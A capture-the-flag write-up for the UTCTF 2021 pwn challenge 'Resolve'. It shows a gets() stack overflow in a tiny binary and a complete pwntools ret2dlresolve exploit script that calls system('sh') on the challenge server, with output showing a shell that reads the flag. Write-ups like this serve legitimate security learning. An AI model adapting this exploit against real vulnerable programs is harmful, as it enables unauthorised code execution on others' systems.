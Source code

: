 # Resolve

**Category**: Pwn \
**Points**: 980 (46 solves) \
**Author**: trab

## Challenge

Yeah you have an overflow, but where do you even jump to? If only there was
some sort of way to find the address of system.

`nc pwn.utctf.live 5435`

Attachments: `resolve`

## Overview

I threw it into Ghidra and got this:
```c
int main() {
  char buf[8];
  gets(buf);
  return 0;
}
```

Wow another tiny pwn challenge!
Let's do `checksec`:

```
$ checksec resolve
[*] '/home/plushie/Programs/bbb_writeups/2021/utctf/Resolve/resolve'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

The challenge hints at ret2dlresolve, which should work since there's no PIE
and stack canary.
Luckily I saw a super elegant ret2dlresolve solution to [babyrop](https://ctftime.org/task/14690)
DiceCTF from theKidOfArcrania, so I just edited it slightly and it worked!

Pwntools is so powerful sometimes it makes me feel like a script kiddie lol.

```python
import pwn

pwn.context.binary = e = pwn.ELF("./resolve")

# p = pwn.process("./resolve")
p = pwn.remote("pwn.utctf.live", 5435)

if pwn.args.GDB:
    pwn.gdb.attach(
        p,
        gdbscript="""
break *(&main+29)
continue
    """,
    )

r = pwn.ROP(e)
d = pwn.Ret2dlresolvePayload(e, symbol="system", args=["sh"])
r.raw(0x401159)  # ret gadget to align stack
r.gets(d.data_addr)
r.ret2dlresolve(d)

payload = pwn.fit({0x10: r.chain()}) + b"\n" + d.payload
p.sendline(payload)
p.interactive()
```

Output:
```
$ python3 solve.py
[*] '/home/plushie/Programs/bbb_writeups/2021/utctf/Resolve/resolve'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to pwn.utctf.live on port 5435: Done
[*] Loading gadgets for '/home/plushie/Programs/bbb_writeups/2021/utctf/Resolve/resolve'
[*] Switching to interactive mode
$ ls
flag.txt
$ cat flag.txt
utflag{2_linker_problems_in_one_ctf?8079235}
```
